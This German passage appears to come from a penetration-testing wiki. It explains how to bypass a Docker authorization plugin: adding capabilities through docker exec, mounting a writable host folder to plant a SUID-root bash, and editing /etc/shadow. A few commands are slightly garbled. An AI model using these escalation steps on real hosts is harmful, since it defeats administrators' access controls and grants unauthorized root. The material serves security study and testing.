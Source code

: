 In diesem Fall **verbot der Sysadmin den Benutzern, Volumes zu mounten und Container mit dem `--privileged`-Flag auszuführen** oder dem Container zusätzliche Berechtigungen zu geben:
```bash
docker run -d --privileged modified-ubuntu
docker: Error response from daemon: authorization denied by plugin customauth: [DOCKER FIREWALL] Specified Privileged option value is Disallowed.
See 'docker run --help'.
```
Jedoch kann ein Benutzer **eine Shell im laufenden Container erstellen und ihr die zusätzlichen Berechtigungen geben**:
```bash
docker run -d --security-opt seccomp=unconfined --security-opt apparmor=unconfined ubuntu
#bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4f1de

# Now you can run a shell with --privileged
docker exec -it privileged bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4f1de bash
# With --cap-add=ALL
docker exec -it ---cap-add=ALL bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4 bash
# With --cap-add=SYS_ADMIN
docker exec -it ---cap-add=SYS_ADMIN bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4 bash
```
Jetzt kann der Benutzer den Container mit einer der [**bereits besprochenen Techniken**](./#privileged-flag) verlassen und **Privilegien eskalieren** innerhalb des Hosts.

## Schreibbares Verzeichnis einbinden

In diesem Fall **verbot der Systemadministrator den Benutzern, Container mit dem `--privileged`-Flag auszuführen** oder dem Container zusätzliche Berechtigungen zu geben, und er erlaubte nur das Einbinden des `/tmp`-Verzeichnisses:
```bash
host> cp /bin/bash /tmp #Cerate a copy of bash
host> docker run -it -v /tmp:/host ubuntu:18.04 bash #Mount the /tmp folder of the host and get a shell
docker container> chown root:root /host/bash
docker container> chmod u+s /host/bash
host> /tmp/bash
-p #This will give you a shell as root
```
{% hint style="info" %}
Beachten Sie, dass Sie möglicherweise den Ordner `/tmp` nicht einhängen können, aber Sie können einen **anderen beschreibbaren Ordner** einhängen. Sie können beschreibbare Verzeichnisse mit folgendem Befehl finden: `find / -writable -type d 2>/dev/null`

**Beachten Sie, dass nicht alle Verzeichnisse auf einer Linux-Maschine das suid-Bit unterstützen!** Um zu überprüfen, welche Verzeichnisse das suid-Bit unterstützen, führen Sie `mount | grep -v "nosuid"` aus. Zum Beispiel unterstützen normalerweise `/dev/shm`, `/run`, `/proc`, `/sys/fs/cgroup` und `/var/lib/lxcfs` nicht das suid-Bit.

Beachten Sie auch, dass Sie, wenn Sie **/etc** oder einen anderen Ordner **mit Konfigurationsdateien** einhängen können, diese als Root aus dem Docker-Container ändern können, um sie **auf dem Host auszunutzen** und Privilegien zu eskalieren (möglicherweise durch Modifikation von `/etc/shadow`).
{% endhint %}
